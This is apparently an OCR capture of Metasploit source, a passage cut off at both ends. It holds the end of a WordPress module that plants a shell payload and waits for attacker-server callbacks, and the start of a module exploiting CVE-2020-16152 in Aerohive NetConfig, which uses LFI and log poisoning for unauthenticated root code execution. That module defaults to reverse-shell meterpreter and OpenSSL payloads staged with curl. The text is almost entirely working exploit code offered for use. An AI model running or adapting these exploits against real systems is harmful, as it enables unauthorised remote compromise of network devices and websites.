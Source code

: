 req, payload_name, post_id) },        'Path' => "/#{payload_name}"      }    })    add_meta(cookie, post_id, ajax_nonce, payload_name)    boost_post(cookie, post_id, wp_nonce, post_count)    print_status('Waiting 90sec for cache refresh by server')    Rex.sleep(90)    print_status('Attempting to force loading of shell by visiting to homepage and loading the widget')    res = get_widget    print_good('We made it to the top!') if res.body.include? payload_name    # if res.body.include? datastore['SRVHOSTNAME']    #  fail_with(Failure::UnexpectedReply, "Found #{datastore['SRVHOSTNAME']} in page content. Payload likely wasn't copied to the server.")    # end    # at this point, we rely on our web server getting requests to make the rest happen  endend### This module requires Metasploit: https://metasploit.com/download# Current source: https://github.com/rapid7/metasploit-framework##class MetasploitModule &lt; Msf::Exploit::Remote  Rank = ExcellentRanking  include Msf::Exploit::Remote::HttpClient  include Msf::Exploit::CmdStager  prepend Msf::Exploit::Remote::AutoCheck  def initialize(info = {})    super(      update_info(        info,        'Name' => 'Aerohive NetConfig 10.0r8a LFI and log poisoning to RCE',        'Description' => %q{          This module exploits LFI and log poisoning vulnerabilities          (CVE-2020-16152) in Aerohive NetConfig, version 10.0r8a          build-242466 and older in order to achieve unauthenticated remote          code execution as the root user. NetConfig is the Aerohive/Extreme          Networks HiveOS administrative webinterface. Vulnerable versions          allow for LFI because they rely on a version of PHP 5 that is          vulnerable to string truncation attacks. This module leverages this          issue in conjunction with log poisoning to gain RCE as root.          Upon successful exploitation, the Aerohive NetConfig application          will hang for as long as the spawned shell remains open. Closing          the session should render the app responsive again.          The module provides an automatic cleanup option to clean the log.          However, this option is disabled by default because any modifications          to the /tmp/messages log, even via sed, may render the target          (temporarily) unexploitable. This state can last over an hour.          This module has been successfully tested against Aerohive NetConfig          versions 8.2r4 and 10.0r7a.        },        'License' => MSF_LICENSE,        'Author' => [          'Erik de Jong', # github.com/eriknl - discovery and PoC          'Erik Wynter' # @wyntererik - Metasploit        ],        'References' => [          ['CVE', '2020-16152'], # still categorized as RESERVED          ['URL', 'https://github.com/eriknl/CVE-2020-16152'] # analysis and PoC code        ],        'DefaultOptions' => {          'SSL' => true,          'RPORT' => 443        },        'Platform' => %w[linux unix],        'Arch' => [ ARCH_ARMLE, ARCH_CMD ],        'Targets' => [          [            'Linux', {              'Arch' => [ARCH_ARMLE],              'Platform' => 'linux',              'DefaultOptions' => {                'PAYLOAD' => 'linux/armle/meterpreter/reverse_tcp',                'CMDSTAGER::FLAVOR' => 'curl'              }            }          ],          [            'CMD', {              'Arch' => [ARCH_CMD],              'Platform' => 'unix',              'DefaultOptions' => {                'PAYLOAD' => 'cmd/unix/reverse_openssl' # this may be the only payload that works for this target'              }            }          ]        ],        'Privileged' => true,        'DisclosureDate' =>